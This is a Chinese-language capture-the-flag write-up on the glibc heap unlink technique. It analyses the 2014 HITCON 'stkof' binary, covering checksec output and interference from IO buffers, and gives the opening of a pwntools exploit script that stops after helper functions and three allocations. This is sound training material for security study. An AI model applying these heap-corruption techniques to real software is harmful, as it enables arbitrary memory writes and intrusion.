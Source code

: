 也就是说我们通过unlink修改了ptr的值，一般来说ptr是存放申请堆块指针的数组，而我们能通过ptr来访问堆块，现在我们就可以通过ptr来访问ptr附近的地址，也就是说我们获取了控制堆指针的权限，可以随意修改堆指针指向，改变任意地址的值

## 例题
### 2014_hitcon_stkof
> 题目地址：https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2014_hitcon_stkof
> 题目版本：ubuntu16.04 & glibc-2.23

#### 分析
```sh
➜  2014_hitcon_stkof checksec stkof    
[*] '/Pwn/heap/unlink/2014_hitcon_stkof/stkof'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```
edit函数可以无限溢出

#### IO缓冲区问题分析
值得注意的是，由于程序本身没有进行 setbuf 操作，所以在执行输入输出操作的时候会申请缓冲区。

alloc函数会先调用IO函数fgets，再执行malloc，最后执行printf
执行fgets会申请输入缓冲区，这里测试为大小为0x1000
再执行malloc函数，申请我们输入大小的chunk
再执行printf函数，会申请输出缓冲区，这里测试大小为0x400

所以第一次申请的堆块会被输入缓冲区和输出缓冲区夹在中间，很难利用
因此我们不用第一次申请的chunk溢出，第一次申请仅排除输入缓冲区和输出缓冲区的干扰

#### exp
```python
from pwn import *

p = process("./stkof")

context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

elf = ELF('./stkof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def alloc(size):
    p.sendline(b'1')
    p.sendline(str(size).encode())
    p.recvuntil(b'OK\n')

def edit(idx, size, content):
    p.sendline(b'2')
    p.sendline(str(idx).encode())
    p.sendline(str(size).encode())
    p.send(content)
    p.recvuntil(b'OK\n')

def free(idx):
    p.sendline(b'3')
    p.sendline(str(idx).encode())

head = 0x602140

alloc(0x100)#1
alloc(0x30)#2
alloc(0x80)#3
```